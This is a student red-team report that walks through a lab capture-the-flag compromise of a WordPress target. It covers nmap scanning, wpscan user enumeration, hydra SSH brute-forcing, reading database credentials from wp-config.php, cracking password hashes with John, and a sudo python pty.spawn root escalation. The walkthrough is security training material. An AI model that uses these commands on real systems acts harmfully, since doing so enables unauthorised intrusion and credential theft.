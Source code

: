# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
Command: $ nmap -sV -sC -O 192.168.1.0/24
  ```
 <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Target-1_nmap.png" alt="Target1_IP" style="height: 400px; width:600px;"/>


This scan identifies the services below as potential points of entry:
   Target 1  
     1. Port 22/TCP Open SSH       
     2. Port 80/TCP Open HTTP       
     3. Port 111/TCP Open rcpbind       
     4. Port 139/TCP Open netbios-ssn     
     5. Port 445/TCP Open netbios-ssn  


The following vulnerabilities were identified on each target:     
   Target 1  
    1. User Enumeration (WordPress site)  
        - a. The stop-user-enumeration plugin before 1.3.8 for WordPress has XSS. [CVE-2017-18536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18536/ "CVE-2017-18536")  
        - b. WordPress Core < 4.7.1 - Username Enumeration Vulnerability CVE-2017-5487 Scanner [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487/ "CVE-2017-5487")  
    2. Weak user Passwords - guess or use hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh      
    3. Unsalted user Password Hash (WordPress)  
    4. Misconfiguration of User Privileges/Privilege Escalation with Python.    

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `Flag1: b9bbcb33ellb80be759c4e844862482d` _hash value_
    - **Exploit Used**
      - WPScan to enumerate users of target1 WordPress site.
      - wpscan --url http://192.168.1.110 --enumerate u
       <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wpscan_michael.png?raw=true" alt="WPScan Users"/>             

      - Brute force, `guess`, or hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh  
      - Use guess password `michael` for user michael.    
      ssh michael@192.168.1.110  
      pwd: michael  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/michael_ID.png?raw=true" alt="michael_ID"/>  
  - egrep flag* service.html
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-1_service-html.png?raw=true" alt="Flag1"/>  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/service-htmp-footer-flag1.png?raw=true" alt src="source.html" style="height: 400px; width:600px;"/>


  - `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c`   
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
      - ssh michael@192.168.1.110
      - pw: michael
      - cd /var/www - transverse the directory.
      - find / i-name flag*
      - cat flag2.txt
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-2.png?raw=true" alt="Flag2"/>  

  - `Flag3: afc01ab56b50591e7dccf93122770cd2`   
    - **Exploit Used**        
      - Continue using michael's credentials; locate the wp-config.php, and use mysql to explore the database.     
      - Once found, the wp-config.php displayed the db_password in plain text.

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config-php--location.png?raw=true" alt="wp_location"/>  
      - cat wp-config-php       
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config_PWD.png?raw=true" alt="wp_passwd"/>   

  - `Flag3` was found in the wp_posts table in the wordpress database.   
      - Commands:  
        - Connected to mysql: -u root -p'R@v3nSecurity'  
        - show databases;  
        - use wordpress;  
        - show tables;  
        - select * from wp_posts;  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/myswl-logon.png?raw=true" alt="mysql-login"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_databases.png?raw=true" alt="mysql_databases"/>    
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_TABLES.png?raw=true" alt="mysql_TABLES"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-3_mysql_wp_posts.png?raw=true"/>


  - `Flag4: 715dea6c055b9fe3337544932f2941ce`:   
        - **Exploit Used**  
            - Use of weak salted hashes and Python root escalation Privileges.   
            - Still using michaels credentials, gather the password hashes to crack.    
            - The usernames and password hashes were copied to the kali server in a file (wp_hashes.txt), and cracked with John.    
            - select * from wp_users;  

  <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Capture-04%20User%20table%20data.PNG?raw=true" style="height: 400px; width:600px;"/>

 - john wp_hashes.text

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Steven_Pink84.png?raw=true" style="height: 200px; width:400px;"/>

          - use Steven credentials to ssh to target1 and escalate privileges to find flag4.  
          - ssh steven@192.168.1.110
          - pw: pink84
          - sudo -l
          - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’   

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/sudo-stephen.png?raw=true"/>

          - cd /root
          - ls
          - cat flag4.txt      

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Flag-4.png?raw=true"/>
